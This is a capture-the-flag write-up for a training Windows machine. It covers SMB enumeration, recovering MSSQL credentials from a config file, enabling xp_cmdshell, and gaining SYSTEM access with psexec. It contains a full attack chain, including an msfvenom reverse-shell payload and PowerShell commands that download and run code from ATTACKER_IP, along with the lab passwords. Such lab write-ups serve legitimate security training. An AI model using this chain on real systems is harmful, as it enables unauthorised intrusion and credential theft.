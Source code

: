 # Archetype

##### Difficulty: [ Very Easy ]

**Tags:** `Windows`,  `SMB`,  `SQL`

---

##### Written: 21/12/2021

##### IP address: 10.129.82.74

---

### [ Which TCP port is hosting a database server? ]

Let's run a basic **Nmap** scan on the target machine. As always, we load in standard scripts (-sC) and enable version enumeration (-sV).

```
sudo nmap -sC -sV -vv -T4 10.129.82.74
```

<img style="float: left;" src="screenshots/screenshot1.png">

From the results, we can see that **4** ports are open: **135** (RPC), **139** (SMB), **445** (SMB) and **1433** (MSSQL server)

The database server is being hosted on port **1433**.

---

### [ What is the name of the non-Administrative share available over SMB? ]

Let's use `smbclient` to list out all of the shares on the SMB server that we can access:

```
smbclient -L 10.129.82.74
```

<img style="float: left;" src="screenshots/screenshot2.png">

There is a non-administrative share of interest: **backups**

---

### [ What is the password identified in the file on the SMB share? ]

Let's login into the **backups** share:

```
smbclient //10.129.82.74/backups
```

<img style="float: left;" src="screenshots/screenshot3.png">

There is a file called **prod.dtsConfig**. We can download it onto our local machine using the `get` command.

**Contents of prod.dtsConfig:**

<img style="float: left;" src="screenshots/screenshot4.png">

*(A DTSCONFIG file is an XML configuration file used to apply property values to SQL Server Integration Services (SSIS) packages. The file contains one or more package configurations that consist of metadata such as the server name, database names, and other connection properties to configure SSIS packages.)*

<br>

We can identify a password in the config file: **M3g4c0rp123**

---

### [ What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server? ]

**mssqlclient.py**

---

### [ What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell? ]

After doing some research online, I came across this useful documentation: 

https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15

**From the site:** 

*xp_cmdshell spawns a Windows command shell and passes in a string for execution. Any output is returned as rows of text.*

Extended stored procedure: **xp_cmdshell**

---

### [ What script can be used in order to search possible paths to escalate privileges on Windows hosts? ]

**WinPEAS** (https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

---

### [ What file contains the administrator's password? ]

Let's log into the MSSQL server using the **mssqlclient.py** script from impacket.

*(Steps on how to do so can be found from here: https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)*

From the config file earlier, we know that the username is **sql_svc** and the password is **M3g4c0rp123**. Also, from our nmap scan, we also know that the domain name is **ARCHETYPE**.

With that, we can log into the MSSQL server:

```
python3 mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.129.82.74
```

<img style="float: left;" src="screenshots/screenshot5.png">

Now let's try to enable **xp_cmdshell**. If enabled, we will be able to run shell commands from within the SQL CLI.

```
enable_xp_cmdshell
```

<img style="float: left;" src="screenshots/screenshot6.png">

Now that xp_cmdshell is enabled, let's try running a basic `whoami` command:

```
xp_cmdshell whoami
```

<img style="float: left;" src="screenshots/screenshot7.png">

Nice, it works!

Now let's try to open a reverse shell into the machine. First, we have to generate a reverse shell payload for Windows. We can use  `msfvenom` to do so:

```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=ATTACKER_IP LPORT=4444 -f exe -o shell.exe
```

Once we have our reverse shell payload, we can run the following command in the MSSQL CLI:

```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://ATTACKER_IP:8000/shell.exe -outfile shell.exe; .\shell.exe"
```

This command does a few things:

1. It uses powershell and the `-c` option to run the subsequent commands.
2. It first navigates to **C:\Users\sql_svc\Downloads** as that is a directory which is writeable by us.
3. It then uses `wget` to download our generated reverse shell payload from our local machine. Make sure to have a HTTP server up and running first.
4. Finally, it executes the reverse shell script, thus opening up the reverse shell.

<br>

With a netcat listener up and running, we soon gain access into the target machine via the reverse shell:

<img style="float: left;" src="screenshots/screenshot8.png">

Now that we're in, let's download **WinPEAS** onto the target machine (make sure to have a HTTP server running).

```
powershell -c wget http://ATTACKER_IP:8000/winPEASx86.exe -outfile winpeas.exe
```

 Looking through the results of the WinPEAS scan, I noticed an interesting file:

<img style="float: left;" src="screenshots/screenshot9.png">

Looks like there is a PowerShell history file called **ConsoleHost_history.txt**:

<img style="float: left;" src="screenshots/screenshot10.png">

This file contains the administrator's password!

---

### [ Submit user flag ]

The administrator's password is: **MEGACORP_4dm1n!!**

Let's now use the **psexec.py** script from impacket to open a connection to the target machine using our newfound credentials.

```
python3 psexec.py administrator@10.129.82.74
```

<img style="float: left;" src="screenshots/screenshot11.png">

And just like that, we're now in the machine as **nt authority\system**!

We can grab the user flag from the **Desktop** of the **sql_svc** user:

<img style="float: left;" src="screenshots/screenshot12.png">

---

### [ Submit root flag ]

The root flag can be found in the **Desktop** of the **Administrator** user:

<img style="float: left;" src="screenshots/screenshot13.png">
